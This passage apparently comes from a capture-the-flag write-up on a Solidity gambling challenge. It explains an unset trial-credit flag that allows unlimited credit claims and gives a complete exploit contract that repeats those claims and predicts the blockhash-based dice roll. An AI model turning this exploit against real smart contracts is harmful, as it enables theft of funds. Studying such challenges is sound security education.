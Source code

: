 ```js
function trialCredit() public {
        require(!gotTrial[msg.sender], "You already got your trial credits");
        gamblersCredit[msg.sender] += 7;
    }

```

Here I am doing the check if the user got a trial or not but I am not modifying that value anywhere. So the user can get infinite `trialCredit`.
We can use that to get close to our target value of credits which is `20`.
Also, it allows the player to reuse its address.

Let's craft our evil contract then..

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "./CrazyGambler.sol";

contract ExploitContract {
    CrazyGambler crazyGambler;

    constructor(address victimAddress) {
        // Setting our target
        crazyGambler = CrazyGambler(victimAddress);
    }

    event Gamble(uint256);

    // Using the same function
    function _rollDice() internal view returns (uint256) {

        uint256 blockNo = block.number - 1;
        uint256 diceRes = uint256(blockhash(blockNo)) % 3;
        return diceRes;
    }

    //
    function initThing() public {
        crazyGambler.trialCredit();
        crazyGambler.trialCredit();
    }

    function tryToSolve() public  {
        uint256 res = _rollDice();
        // The same check as in gamble
        if (res == 0) {
            crazyGambler.gamble(msg.sender);
        }
        // Here to keep track of our progress
        uint256 currentCredit = crazyGambler.gamblersCredit(address(this));
        // Emitting an event is like announcing something. It's really good
        // to inform off-chain parties of on-chain updates
        emit Gamble(currentCredit);
    }
}
```
